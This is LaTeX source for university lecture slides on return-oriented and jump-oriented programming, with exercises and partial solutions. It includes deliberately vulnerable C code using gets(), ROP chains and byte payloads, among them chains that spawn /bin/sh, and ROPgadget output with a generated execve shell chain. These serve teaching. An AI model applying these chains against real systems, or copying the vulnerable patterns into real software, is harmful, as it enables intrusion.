
\section{ROP}
\begin{frame}{next topic: ROP}
    \begin{itemize}
    \item return-oriented programming
    \vspace{.5cm}
    \item find ``chain'' of machine code that does what you want
    \end{itemize}
\end{frame}


\subsection{case study: F5 exploit}
\begin{frame}{F5 load balancer exploit}
\begin{itemize}
\item recently F5 Big-IP load balancers shown to have stack buffer overflow
\item F5 didn't enable ASLR, write XOR execute
\item problem: stack address was randomized
\item so can't do stack smashing\ldots
\end{itemize}
\end{frame}

\begin{frame}[plain]{}

\includegraphics[height=0.95\textheight]{../rop/f5-poc-twitter}
\end{frame}

\begin{frame}[fragile,label=jmpRsp]{jmp *\%rsp}
    \begin{itemize}
    \item there was a \texttt{jmp *\%rsp} instruction at fixed address
    \vspace{.5cm}
    \item was that really lucky?
    \item let's try examining, say, \texttt{/bin/bash} (shell) on my desktop\ldots
    \end{itemize}
\begin{lstlisting}[language=,style=smaller]
   949bf:       8b 15 ff e4 08 00       mov    0x8e4ff(%rip),%edx
\end{lstlisting}
    \begin{itemize}
        \item machine code for \texttt{jmp *\%rsp}: \texttt{ff e4}
        \item \ldots appears in middle of mov instruction!
    \end{itemize}
\end{frame}



\subsection{case study: calling puts}
\usetikzlibrary{arrows.meta,shapes.multipart}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}
\begin{frame}{ROP case study}
    \begin{itemize}
    \item simple stack buffer overflow with write XOR execute
    \item stack canaries disabled
    \item ASLR disabled
        \begin{itemize}
        \item in practice --- rely on information disclosure bug
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=vuln]{vulnerable application}
    \lstset{language=C,style=small}
\begin{lstlisting}
#include <stdio.h>

int vulnerable() {
    char buffer[100];
    gets(buffer);
}

int main(void) {
    vulnerable();
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=vulnFunc]{vulnerable function}
    \lstset{language=myasm,style=small}
\begin{lstlisting}
0000000000400536 <vulnerable>:
  400536:       48 83 ec 78        sub    $0x78,%rsp
  40053a:       31 c0              xor    %eax,%eax
  40053c:       48 8d 7c 24 0c     lea    0xc(%rsp),%rdi
  400541:       e8 ca fe ff ff     callq  400410 <gets@plt>
  400546:       48 83 c4 78        add    $0x78,%rsp
  40054a:       c3                 retq   
\end{lstlisting}
    \begin{itemize}
        \item<2> buffer at \texttt{0xC} + stack pointer
        \item<2> return address at \texttt{0x78} + stack pointer
            \begin{itemize}
                \item = \texttt{0x6c} + buffer
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=memoryLayout]{memory layout}
\lstset{
    language={},
    style=small,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
}
\begin{itemize}
    \item going to look for interesting code to run in libc.so
        \begin{itemize}
        \item implements gets, printf, etc.
        \end{itemize}
    \item loaded at address {\tt 0x2aaaaacd3000}
\end{itemize}
\end{frame}

\begin{frame}{our task}
    \begin{itemize}
    \item print out the message ``You have been exploited.''
    \item ultimately calling {\tt puts}
    \item which will be at address {\tt 0x2aaaaad42690}
    \end{itemize}
\end{frame}

\begin{frame}{how about arc injection?}
    \begin{itemize}
    \item can we just change return address to puts's address?
    \vspace{.5cm}
    \item no: \%rdi (argument 1) has the wrong value
    \end{itemize}
\end{frame}



\begin{frame}[fragile,label=shellcode]{shellcode}
\lstset{
    language=myasm,
    style=small,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
}
\begin{lstlisting}
        lea  string(%rip), %rdi
        mov  $0x2aaaaad42690, %rax /* puts */
        jmpq *(%rax)
string: .ascii "You have been exploited.\0"
\end{lstlisting}
    \begin{itemize}
        \item but --- can't insert code
        \item surely this code doesn't exist in libc already
        \item solution: find code for pieces
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=loadRDICode]{loading string into RDI}
\lstset{
    language=myasm,
    style=small,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
}
    \begin{itemize}
        \item can we even load a pointer to the string into {\tt \%rdi}?
        \item let's look carefully at code in {\tt libc.so}
    \end{itemize}
\begin{lstlisting}
2aaaaadfdc95:       48 89 e7              mov    %rsp,%rdi
2aaaaadfdc98:       ff d0                 callq  *%rax
\end{lstlisting}
    \begin{itemize}
        \item just need to get address of {\tt puts} into {\tt \%rax} before this
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=loadRDI]{load RDI}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{scope}[xscale=0.75]
\draw[stackBox] (0, 2) rectangle (10, -3);
\draw[thick,-Latex] (-.25,-1) -- (-.25, 1) node [midway, above, sloped] {increasing addresses};
\node[at={(5, 2.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -3.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\ \only<2->{address of ``gadget''}};
\draw[onStack,fill=blue!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

    \begin{visibleenv}<2->
\draw[onStack,fill=red!20,opacity=0.9] (0, -2.25) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {unused junk};
\draw[onStack,fill=green!20,opacity=0.9] (0, -.25) rectangle (10, 1.0) node[midway,align=center,font=\small,text=red!50!black] {string pointed to by RDI};

\draw[-Latex,red,ultra thick,dashed] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |-
    (12, -1.25) node[align=left,right,font=\small] { {\tt mov \%rsp, \%rdi} \\ {\tt call *\%rax} };
\end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=loadRAXCode]{loading puts addr. into RAX}
\lstset{
    language={},
    style=smaller,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
    moredelim={**[is][\color{red}\bfseries]{~hi~}{~end~}},
}
\begin{lstlisting}
2aaaaad06543:       e8 ~hi~58 c3~end~ fe ff          callq  2aaaaaaf48a0
\end{lstlisting}
\begin{itemize}
    \item {\tt 58 c3} can be interpreted another way: 
\begin{lstlisting}
2aaaaad06544:       58          popq %rax
2aaaaad06545:       c3          retq
\end{lstlisting}
    \item ``ret'' lets us \textbf{chain} this to execute \texttt{call} snippet next
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=loadChain]{ROP chain}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    useLine/.style={very thick,blue,Latex-},
    useLineRet/.style={red,very thick,-Latex,dashed},
    gadgetBox/.style={blue,thick,text=black,draw,align=left,font=\small},
}
\begin{scope}[xscale=0.75]
\draw[stackBox] (0, 3) rectangle (10, -3);
\draw[thick,-Latex] (-.25,-1) -- (-.25, 1) node [midway, above, sloped] {increasing addresses};
\draw[onStack,fill=green!20,opacity=0.9] (0, 3.00) rectangle (10, 1.75) node[midway,align=center,font=\small] (theString)
     {string to print};
\draw[onStack,red] (0, 1.75) rectangle (10, .75) node[midway,align=center,font=\small] (gadgetTwo)
     {pointer to second gadget};
\draw[onStack,fill=green!20] (0, .75) rectangle (10, -.25) node[midway,align=center,font=\small] (putsAddr)
     {address of \texttt{puts} (popped from stack)};
\draw[onStack,red] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\pointer to first gadget};
\draw[onStack,fill=blue!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {buffer (100 bytes)};
\draw[onStack,fill=red!20,opacity=0.9] (0, -2.25) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {unused junk};
        \draw[-Latex,red,ultra thick,dashed] (stackAddr.east) -- ++(3cm,0cm) 
        node[right,gadgetBox] (firstGad) { {\tt popq \%rax} \\ {\tt ret} };
        \draw[-Latex,red,ultra thick,dashed] (gadgetTwo.east) -- ++(3cm,0cm)
        node[right,gadgetBox] (secondGad) { {\tt mov \%rsp, \%rdi} \\ {\tt call *\%rax} };
    \begin{visibleenv}<2->
        \node[gadgetBox,dashed,below=1cm of firstGad] (realRet) {
            \texttt{ret} (in vulnerable)
        };
        \draw[useLineRet] ([xshift=1ex]realRet.west) -- ([xshift=-1ex,yshift=2ex]stackAddr.south east);
    \end{visibleenv}
    \begin{visibleenv}<3->
        \draw[useLine] ([yshift=.6em,xshift=1ex]firstGad.west) -- (putsAddr.east);
    \end{visibleenv}
    \begin{visibleenv}<4->
        \draw[useLineRet] ([yshift=-.6em,xshift=1ex]firstGad.west) -- ([xshift=-1ex,yshift=2ex]gadgetTwo.south east);
    \end{visibleenv}
    \begin{visibleenv}<4->
        \draw[useLine] ([yshift=.6em,xshift=1ex]secondGad.west) -- (theString.east);
    \end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}




\subsection{weird machines}
\begin{frame}{programs as weird machines}
    \begin{itemize}
    \item ROP, format strings: mini machine language
    \item set of instructions including:
        \begin{itemize}
        \item reading/writing values from memory
        \item flow control
        \item make system calls (requests to operating system)
        \end{itemize}
    \item can be viewed as virtual machine with unusual instruction set
    \vspace{.5cm}
    \item can be analyzed using DMT2 techniques
        \begin{itemize}
        \item what can it compute?
        \end{itemize}
    \end{itemize}
\end{frame}


\subsection{ROP: exercise 0}
\begin{frame}[fragile,label=makerop0]{making an ROP chain (0)}
    \begin{itemize}
    \item goal: run ``\texttt{example(0)}''
    \item known info:
    \end{itemize}
{\small \tt
\begin{tabular}{ll}
\normalfont address & \normalfont instructions \\
0x100000 & (example function) \\
0x100100 & pop \%rdi; ret \\
0x100200 & xor \%eax, \%eax; ret \\
0x100300 & xor \%edi, \%edi; ret \\
\end{tabular}
}
\begin{itemize}
\item exercise: what can be written at return address + after to do this?
    \begin{itemize}
    \item just putting 0x100000: runs example function with wrong argument
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=makerop0soln]{making an ROP chain --- one solution}
\begin{itemize}
\item[] [\myemph<4>{0x100100}: \myemph<2>{pop \%rdi}; \myemph<3>{ret}]
\item[] \myemph<2>{\myemph<5>{0x0}}
\item[] [\myemph<3>{\myemph<6>{0x100000}}: example]
\vspace{.5cm}
\item as bytes (to put in buffer overflow):
    \begin{itemize}
    \item {\tt \myemph<4>{00 01 10 00 00 00 00 00} \myemph<5>{00 00 00 00 00 00 00 00}
               \myemph<6>{00 00 10 00 00 00 00 00}}
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=makerop0solnB]{making an ROP chain --- another solution}
\begin{itemize}
\item[] [\myemph<4>{0x100200}: \myemph<2>{xor \%edi, \%edi}; \myemph<3>{ret}]
\item[] [\myemph<3>{\myemph<5>{0x100000}}: example]
\vspace{.5cm}
\item as bytes (to put in buffer overflow):
    \begin{itemize}
    \item {\tt \myemph<4>{00 02 10 00 00 00 00 00} \myemph<5>{00 00 10 00 00 00 00 00}}
    \end{itemize}
\end{itemize}
\end{frame}


\subsection{ROP: exercise 1}


\begin{frame}[fragile,label=makerop1]{making an ROP chain (1)}
\begin{itemize}
    \item goal: run ``\texttt{system("/bin/sh")}''
    \item known info:
\end{itemize}
{\small \tt
\begin{tabular}{ll}
\normalfont address & \normalfont instructions \\
0x100000 & (system function) \\
0x100100 & mov \%rdi, (\%rax); ret \\
0x100200 & pop \%rax; ret \\
0x100300 & pop \%rdi; ret \\
0x200000 & (some global variable) \\
\end{tabular}
}
\begin{itemize}
\item exercise: what can be written at return address + after to do this?
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=makerop1soln]{one solution}
\begin{itemize}
\item[] [0x100200: \myemph<2>{pop \%rax}; \myemph<3>{ret}]
\item[] \only<2>{\%rsp->}[\myemph<2>{0x200000}]
\item[] \only<3>{\%rsp->}[\myemph<3>{0x100300}: \myemph<4>{pop \%rdi}; \myemph<5>{ret}]
\item[] \only<4>{\%rsp->}["/bin/sh\textbackslash 0"]
\item[] \only<5>{\%rsp->}[\myemph<5>{0x100100}: \myemph<6>{mov \%rdi, (\%rax)}; \myemph<7>{ret}]
\item[] \only<6-7>{\%rsp->}[\myemph<7>{0x100300}: \myemph<8>{pop \%rdi}; \myemph<9>{ret}]
\item[] \only<8>{\%rsp->}[\myemph<8>{0x200000}]
\item[] \only<9>{\%rsp->}[\myemph<9>{0x100000}: system()]
\end{itemize}
\begin{tikzpicture}[overlay,remember picture]
\node[anchor=north east,draw,very thick,align=left] at ([xshift=-.5cm,yshift=-.5cm]current page.north east) {
    \%rax = \alt<2->{\myemph<2>{\texttt{0x200000}}}{???} \\
    \%rdi = \alt<8->{\myemph<8>{0x200000}}{\alt<4->{\myemph<4>{\texttt{"/bin/sh\textbackslash 0"} as int}}{???}}
};
\end{tikzpicture}
\end{frame}


\subsection{finding gadgets (take 1)}
\againframe<2>{loadRAXCode}

\begin{frame}{how did I find that?}
    \begin{itemize}
        \item no, I am not really good at looking at \texttt{objdump} output
        \item tools scan binaries for \textit{gadgets}
        \item one you'll use in upcoming homework
    \end{itemize}
\end{frame}

\begin{frame}{gadgets generally}
    \begin{itemize}
        \item bits of machine code that do work, then return or jump
        \item ``chain'' together, by having them jump to each other
        \item most common: find gadget ending with \texttt{ret}
            \begin{itemize}
            \item pops address of next gadget offs tack
            \end{itemize}
    \end{itemize}
\end{frame}



\subsection{finding gadgets, generally}

\begin{frame}{finding gadgets}
    \begin{itemize}
        \item find code segments of exectuable/library
        \item look for opcodes of arbitrary jumps:
            \begin{itemize}
            \item \texttt{ret}
            \item \texttt{jmp *register}
            \item \texttt{jmp *(register)}
            \item \texttt{call *register}
            \item \texttt{call *(register)}
        \end{itemize}
        \item disassemble starting a few bytes before
            \begin{itemize}
            \item invalid instruction? jump before ret? etc. --- discard
            \end{itemize}
        \item sort list
        \vspace{.5cm}
    \item \myemph{automatable}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=ROPgadgetEx1]{ROPgadget}
    \begin{itemize}
    \item ROPgadget: tool that does this
    \end{itemize}
\begin{lstlisting}[language={},style=small]
$ ROPgadget --binary /bin/ls
....
0x000000000000f09d : xor r8d, r8d ; cmp rcx, rsi ; jb 0xf0b9 ; jmp 0xf0e6
0x0000000000012a22 : xor r8d, r8d ; jmp 0x11fee
0x0000000000013d86 : xor r8d, r8d ; jmp 0x137a8
0x000000000001421a : xor r8d, r8d ; jmp 0x141b0
0x0000000000006aa1 : xor r8d, r8d ; jmp 0x69d5
0x00000000000099f0 : xor r8d, r8d ; jmp 0x931d
0x000000000000e6d0 : xor r8d, r8d ; mov rax, r8 ; ret
0x00000000000127a7 : xor r8d, r8d ; xor esi, esi ; jmp 0x11fee
0x000000000000e640 : xor r8d, r8d ; xor esi, esi ; jmp 0xe66a
0x000000000001435d : xor r9d, r9d ; jmp 0x141b0
0x0000000000008a03 : xor r9d, r9d ; xor r12d, r12d ; jmp 0x873c
0x0000000000014217 : xor r9d, r9d ; xor r8d, r8d ; jmp 0x141b0

Unique gadgets found: 6472
\end{lstlisting}
\end{frame}

\begin{frame}{selected ROP gadget options}
    \begin{itemize}
    \item {\tt --offset X}: set start location for binray/library
    \item {\tt --badbytes XYZ}: ignores gadgets whose addresses contain cerain bytes
        \begin{itemize}
        \item to handle restrictions on input --- e.g no newline
        \item similar to writing shellcode without specific bytes
        \end{itemize}
    \end{itemize}
\end{frame}


\subsection{aligning chains}



\begin{frame}[fragile]{exercise: ROP chain alignment}
\begin{tikzpicture}
\node (code) {
\begin{lstlisting}[language=C++,style=smaller]
void getInitials(char *init) {
    char first[50]; char second[50];
    scanf("%s%s", first, second);
    init[0] = first[0];
    init[1] = second[0];
}
\end{lstlisting}
};
\node[anchor=north west] (asm) at ([xshift=.2cm]code.north east) {
\begin{lstlisting}[language=myasm,style=smaller]
getInitials: push %rbx
xor    %eax,%eax
mov    %rdi,%rbx
// lea "%s%s" -> %rdi
lea    0xe6e(%rip),%rdi 
sub    $0xa0,%rsp
// &second[0] -> %rdx
lea    0x50(%rsp),%rdx 
// &first[0] -> %rsi
mov    %rsp,%rsi
call   __isoc99_scanf@plt
mov    (%rsp),%al
mov    %al,(%rbx)
mov    0x50(%rsp),%al
mov    %al,0x1(%rbx)
add    $0xa0,%rsp
pop    %rbx
ret 
\end{lstlisting}
};
\node[anchor=north west,align=left,font=\small] at ([yshift=.1cm]code.south west) {
Suppose we have 64-byte ROP chain \\
w/o whitespace in it. How to write input? \\
(Multiple might work) \\
A. \textit{[100 As]}\textit{[ROP chain]} X \\
B. \textit{[44 As]}\textit{[ROP chain]} X \\
C. \textit{[36 As]}\textit{[ROP chain]} X \\
D. \textit{[ROP chain]}\textit{[36 As]}\textit{[ROP chain addr]} X \\
E. X \textit{[42 As]}\textit{[ROP chain]} \\
F. X \textit{[50 As]}\textit{[ROP chain]} \\
G. \textit{[ROP chain]} \textit{[50 As]}\textit{[ROP chain addr]} \\
};
\end{tikzpicture}
\end{frame}



% FIXME: demo

\subsection{reusable sequence}

\begin{frame}{common, reusable ROP sequences}
    \begin{itemize}
        \item most common idea: run a shell (command prompt)
            \begin{itemize}
            \item same thing `shellcode is named after'
            \item \texttt{ROPchain --binary example --ropchain} tries to do this
            \end{itemize}
        \item another possibilities: make memory executable + jump
            \begin{itemize}
            \item make `normal' shellcode work
            \end{itemize}
        \item probably more ideas
        \vspace{.5cm}
        \item if finding one of these in popular library\ldots
        \item can reuse across a lot of applications
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=ropchainex1]{ROPgadget --ropchain (works)}
\begin{lstlisting}[language={},style=script]
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 \
             --offset 0x10000000 --ropchain
...
        #!/usr/bin/env python
        # execve generated by ROPgadget

        from struct import pack

        # Padding goes here
        p = b''
        p += pack('<Q', 0x00000000101056fd) # pop rdx ; pop rcx ; pop rbx ; ret
        p += pack('<Q', 0x00000000101eb1a0) # @ .data
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x000000001004a550) # pop rax ; ret
        p += '/bin//sh'
        p += pack('<Q', 0x00000000100374b0) # mov qword ptr [rdx], rax ; ret
...
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=ropchainex]{ROPgadget --ropchain (does not work?)}
\begin{lstlisting}[language={},style=script]
ROPgadget --binary /bin/ls --ropchain
...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x7694 mov byte ptr [rax], 0xa ; pop rbx ; pop rbp ; pop r12 ; ret
        [-] Can't find the 'pop rax' gadget. Try with another 'mov [reg], reg'

        [-] Can't find the 'mov qword ptr [r64], r64' gadget
...
\end{lstlisting}
\end{frame}


\subsection{dealing without generic sequence}
\begin{frame}{failure of automated chain finding?}
    \begin{itemize}
    \item automated chain finding fails?
    \vspace{.5cm}
    \item ROPgadget has very particular patterns it looks for
    \item you can be more creative than it can
    \vspace{.5cm}
    \item also some other tools (e.g. angrop) might handle more cases
    \end{itemize}
\end{frame}


\subsection{example: VTable overwrite}

\begin{frame}{ROP without a stack overflow (1)}
    \begin{itemize}
    \item we can use ROP ideas for non-stack exploits
    \vspace{.5cm}
    \item look for gadget(s) that set {\tt \%rsp}
    \item \ldots based on function argument registers/etc.
    \end{itemize}
\end{frame}

\begin{frame}{ROP without stack overflow (2)}
    \begin{itemize}
    \item example sequence:
        \begin{itemize}
            \item gadget 1: \texttt{push \%rdi; jmp *(\%rdx)}
            \item gadget 2: \texttt{pop \%rsp; ret}
        \end{itemize}
    \item set:
        \begin{itemize}
        \item overwritten function pointer = pointer to gadget 1
        \item arg 1: {\tt \%rdi} = desired stack pointer (pointer to next gadgets)
        \item arg 3: {\tt \%rdx} = pointer to gadget 2
        \end{itemize}
    \end{itemize}
\end{frame}


\usetikzlibrary{arrows.meta,fit,patterns}

\begin{frame}[fragile,label=VTblOver]{VTable overwrite with gadget}
\lstset{language=C++,style=small}
    \begin{tikzpicture}
        \node[anchor=north east] (code) at (1.5, 0) {
\begin{lstlisting}
class Bar {
  char buffer[100];
  Foo *foo;
  int x, y;
  ...
};

void Bar::vulnerable() {
  gets(buffer);
  foo->some_method(x, y);
  // (*foo->vtable[K])(foo, x, y)
  // foo == rdi, x == rsi, y == rdx
}
\end{lstlisting}
};
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    useLine/.style={very thick,blue,Latex-},
    useLineRet/.style={red,very thick,-Latex,dashed},
    gadgetBox/.style={blue,thick,text=black,draw,align=left,font=\small},
}
        \begin{visibleenv}<1-2>
\draw[thick,-Latex] (-.25,-4) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
        \end{visibleenv}
    \draw[stackBox] (0, 0) rectangle (3, -5);
        \draw[onStack,fill=green!20] (0, -1.5) rectangle (3, -5) node[midway] {buffer};
        \draw[onStack,fill=yellow!20] (0, -1) rectangle (3, -1.5) node[midway] {foo};
        \draw[onStack,fill=yellow!20] (0, -0) rectangle (3, -1) node[midway] {x, y};

        \draw[stackBox] (4, 0) rectangle (7, -3);
        \draw[onStack](4, -2.5) rectangle (7, -3) node[midway] {vtable ptr};

        \draw[stackBox] (4, -4) rectangle (7, -6);
        \node[midway,anchor=south] at (5.5, -5) {func. ptrs};
        \draw[fill=blue!30] (4, -5) rectangle (7, -5.5) node[midway] { some\_method };

        \draw[-Latex, very thick,blue] (3, -1.25) -- ++ (.5cm, 0) |- (4, -2.9);
        \draw[-Latex, very thick,blue] (7, -2.75) -- ++ (.5cm, 0) |- (7, -5.9);
        \begin{visibleenv}<2->
            \fill[pattern=north west lines,pattern color=red] (0, -0) rectangle (3, -1.5);
            \draw[-Latex, ultra thick, dashed, red] (3, -1.25) -- ++(.5cm, 0) |- (3, -4.9);
            \draw[fill=white,fill opacity=0.9,draw=red,very thick] (0, -5) rectangle (3, -4.5)
                node[midway] {``vtable'' ptr};
        \end{visibleenv}
        \begin{visibleenv}<3->
            \draw[fill=blue!30,fill opacity=0.9,draw=red,very thick] (0, -2.5) rectangle (3, -2)
                node[midway] {\text{gadget} ptr};
            \draw[-Latex, ultra thick, dashed, red] (0, -4.75) -- ++(-.5cm, 0) |- (0, -3);
            \draw[fill=white,fill opacity=0.9,draw=red,very thick] (0, 0) rectangle (3, -1)
                node[midway] { \textbf{rsi}, \textbf{rdx} values };
            \draw[Latex-, thick,red] (3, -5) -- ++(0cm, -.5cm) node[below] {rdi value};
        \end{visibleenv}
        \begin{visibleenv}<4->
            \node[align=left,thick,draw,anchor=north east,fill=white] (gadget) at (-1, -3) {
                gadget: \\ \texttt{push \%rdx; jmp *(\%rsi)}
            };
            \draw[-Latex,ultra thick, dashed, red] (0, -2.25) -| (gadget.north);
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}




\subsection{definition: JOP}

\begin{frame}{jump-oriented programming}
    \begin{itemize}
        \item seems like \texttt{ret} is the problem?
            \begin{itemize}
            \item solve by protecting rets (e.g. hardware shadow stack)?
            \end{itemize}
        \item problem: don't actually need \texttt{ret}
        \vspace{.5cm}
        \item<2-> just look for gadgets that end in \texttt{call} or \texttt{jmp}
        \item<2-> don't even need to set stack
        \item<2-> harder to find than \texttt{ret}-based gadgets
            \begin{itemize}
            \item but almost always as powerful as ret-based gadgets
            \end{itemize}
    \end{itemize}
\end{frame}


\usetikzlibrary{arrows.meta,matrix}
\begin{frame}[fragile,label=jopdispatch1]{programming JOP}
\begin{tikzpicture}
\node[draw,label={north:``dispatcher'' gadget}]  (code) {
\begin{lstlisting}[language=myasm]
add $8, %rcx
jmp *(%rcx)
\end{lstlisting}
};
\begin{visibleenv}<2->
\matrix[tight matrix,anchor=north west,nodes={font=\small,text width=4cm}] (gadget list) at ([xshift=1cm]code.north east) {
    pointer to gadget1 \\
    pointer to gadget2 \\
    pointer to gadget3 \\
    \ldots \\
};
\path[draw,very thick,Latex-] (gadget list-1-1.east) -- ++(1cm,0cm) node[right] {initial \%rcx};
\path[draw,very thick,Latex-] ([yshift=-.5cm]code.north west) -- ++(-1cm,0cm) node[left] {\%rdx};
\path[draw,very thick,Latex-] ([yshift=-.5cm]code.north west) -- ++(-.5cm, -.5cm) node[draw,very thick,fill=yellow!20,below left] (ptr) {};
\path[draw,very thick,Latex-] (ptr.south) -- ++(0cm, -.5cm) node[below] {\%rdi};
\path[draw,thick,dotted,-Latex] ([xshift=-.1cm]gadget list-1-1.north west) -- ++(0cm, -1cm);
\end{visibleenv}
\begin{visibleenv}<3->
\node[draw,label={north:template for other gadgets}] (code 2) at ([xshift=1cm,yshift=-3cm]code.south east) {
\begin{lstlisting}[language=myasm]
...
jmp *%rdx
\end{lstlisting}
---\textit{ OR }---
\begin{lstlisting}[language=myasm]
...
jmp *(%rdi)
\end{lstlisting}
};
\end{visibleenv}
\end{tikzpicture}
\begin{itemize}
\item<4-> setup: find a way to set \%rdx, \%rdi, \%rcx appropriately
\item<5-> note: can choose different registers, dispatcher design
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=jopdispatch2]{dispatcher gadgets?}
\begin{lstlisting}[language={},style=smaller]
/* from libc on my desktop: */
adc esi, edi ; jmp qword ptr [rsi + 0xf]
add al, ch ; jmp qword ptr [rax - 0xe]

/* from firefox on my desktop: */
add eax, ebp ; jmp qword ptr [rax]
add edi, -8 ; mov rax, qword ptr [rdi] ; jmp qword ptr [rax + 0x68]
sub esi, dword ptr [rsi] ; jmp qword ptr [rsi - 0x7d]
\end{lstlisting}
\begin{itemize}
\item adc (add with carry) --- Intel syntax: destination first
\end{itemize}
\end{frame}


\subsection{exercise: using function pointer overwrite}
\begin{frame}[fragile,label=useFPtrOverwrite1]{using function pointer overwrite (1)}
\begin{lstlisting}[language=C,style=script]
struct Example {
    char input[1000];
    void (*process_function)(Example *, long, char *);
};
void vulnerable(struct Example *e) {
    long index;
    char name[1000];
    gets(e->input); /* can overwrite process_function */
    scanf("%ld,%s", &index, &name[0]); /* expects <decimal number>,<string> */
    (e->process_function)(e /* rdi */, index /* rsi */, name /* rdx */);
}
\end{lstlisting}
\begin{itemize}
\item if we overwrite process\_function's address with the address of the gadget
    \texttt{mov \%rsi, \%rsp; ret}, then the beginning of the input
    should contain\ldots \\
    \begin{itemize}
    \item A. the shellcode to run
    \item B. an ROP chain to run
    \item C. the address of shellcode (or existing function) in decimal
    \item D. the address of the ROP chain to run written out in decimal
    \item E. the address of a RET instruction written out in decimal
    \end{itemize}
\end{itemize}
\end{frame}

\iftoggle{heldback}{\excludecomment{soln}}{\includecomment{soln}}
\begin{soln}
\begin{frame}[fragile,label=useFPtrOverwrite1Explain]{explanation}
\begin{lstlisting}[language=C++,style=script]
gets(e->input); /* can overwrite process_function */
scanf("%ld,%s", &index, &name[0]); /* expects <decimal number>,<string> */
(e->process_function)(e /* rdi */, index /* rsi */, name /* rdx */);
\end{lstlisting}
\texttt{"1234,FOO......."} + addr of \texttt{mov \%rsi, \%rsp, ret}
\begin{itemize}
\item arguments setup registers for gadget:
\begin{itemize}
    \item \%rdi (irrelevant) is "1234,FOO..." (copy in e)
    \item \%rsi is 1234 (from scanf)
    \item \%rdx (irrelevant) is "FOO..." (pointer to name)
\end{itemize}
\item mov in gadget: \%rsi (1234) becomes \%rsp
\item ret in gadget: read pointer at 1234, set \%rsp to 1234 + 8
    \begin{itemize}
    \item jump to next gadget (whose address should be stored at 1234)
    \item if that gadget returns, will read new return address from 1238
    \end{itemize}
\end{itemize}
